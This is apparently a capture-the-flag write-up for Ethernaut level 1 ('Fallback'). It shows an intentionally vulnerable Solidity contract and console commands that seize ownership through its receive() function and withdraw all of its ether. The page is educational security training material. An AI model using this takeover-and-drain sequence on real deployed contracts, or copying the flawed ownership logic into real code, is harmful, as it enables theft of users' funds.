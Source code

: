 # Level 1 - Fallback ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/1" %}

### Level Setup

{% hint style="info" %}
Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0



Things that might help:

* How to send ether when interacting with an ABI
* How to send ether outside of the ABI
* Converting to and from wei/ether units (see `help()` command)
* Fallback methods
{% endhint %}

### Level Contract

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
{% endcode %}

### Exploit

The exploit in this contract is in the `receive()` function as it changes the owner to _**any**_ `msg.sender` provided that the `msg.sender` has previously been added to the `contributions` mapping.

1. Start by contributing to the contract as this is needed to pass the `require` check in the `receive()` function. The contribution must be less than `0.001 ETH` to pass the `require` on the `contribute()` function (`line 23`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await contract.contribute({
    value: toWei('0.0005'),
})
```
{% endcode %}

2. Become the owner by sending an amount of ETH directly to the contract which will [get picked up by](../../solidity-notes/fallback.md) the `receive()` function (`line 38`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await sendTransaction({
    to: contract.address,
    from: player,
    value: toWei('0.0001')
})
```
{% endcode %}

3. Now you are the owner, withdraw all the funds.

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await contract.withdraw()
```
{% endcode %}

4. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learned about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
{% endhint %}

### Notes

* This exploit shows how logic in the `receive()` function should be carefully reviewed as even though it can't be easily called through a standard contract function call, it's still possible to call it.
* The logic doesn't make much sense as I don't see what was trying to be achieved. Maybe to have a "secret" way to change the owner?

